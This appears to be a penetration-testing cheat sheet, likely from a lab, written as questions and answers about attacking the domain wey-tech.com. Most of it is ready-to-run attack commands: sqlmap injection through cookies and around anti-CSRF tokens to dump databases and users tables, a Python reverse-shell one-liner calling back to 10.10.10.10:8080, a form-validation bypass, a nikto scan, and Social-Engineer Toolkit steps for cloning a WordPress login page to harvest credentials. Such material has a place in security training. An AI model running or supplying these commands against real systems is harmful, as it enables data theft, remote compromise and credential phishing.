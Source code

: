 # Various Web Exploits

### Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
`a` will retrieve everything. If you don't want to do that and instead find the information incrementally to save time for what you're really after then use: `--dbs` to enumerate teh databases, then `--tables -D <db name>` to get the tables, then `-T users --dump` to dump the *users* tables for example.

### You have a gzip compressed data file and want to peep inside?
Try `zless` or `zcat`.

### What is a python payload for a reverse shell?
```
import os; os.system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.10.10/8080 0>&1\"'
```

### In what way can you try to trip up a web form that uses html tags in order to check syntax?
As an example case with `<input ... type='email'>`, you can inspect the tag and change the type to `text` and try submitting a single quote (`'`).

### How do you use sqlmap when the site has an anti-CSRF token mechanism?
```
sqlmap -u "http://personnel.wey-tech.com/application-check.php?applicantmail=blah&token=M" --csrf-url="http://personnel.wey-tech.com/validator.php" --csrf-token=token -v 6
```
If that doesn't work, you may need to use `eval` to write a custom python script.
```
sqlmap -u "http://personnel.wey-tech.com/application-check.php?applicantmail=blah&token=M" --eval "import urllib;page = urllib.urlopen('http://personnel.wey-tech.com/validator.php');token = urllib.quote(str(page.read()).decode('utf-8'));print(token)" -p applicantmail -v 1
```

### What tool helps detect web server versions and misconfigurations?
```
nikto -h http://mail.wey-tech.com
```
Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. 

### What is a tool for social engineering?
```
sudo setoolkit
```
Use the following options for SET: 1) Social-Engineering Attacks , 2) Website Attack Vectors, 3) Credential Harvester Attack Method, 2) Site Cloner

Clone the login page http://join.wey-tech.com/wp-login.php

This will set up and clone the login page for join.wey-tech.com.

Note - Be sure you visit your local tun0 interface at http://10.2.4.2/ to ensure it's cloning the login page and not index. If so, close setoolkit and try again until it clones the login page.

Hits are saved in XML `.set/reports/2020-07-31 03:57:17.429704.xml`
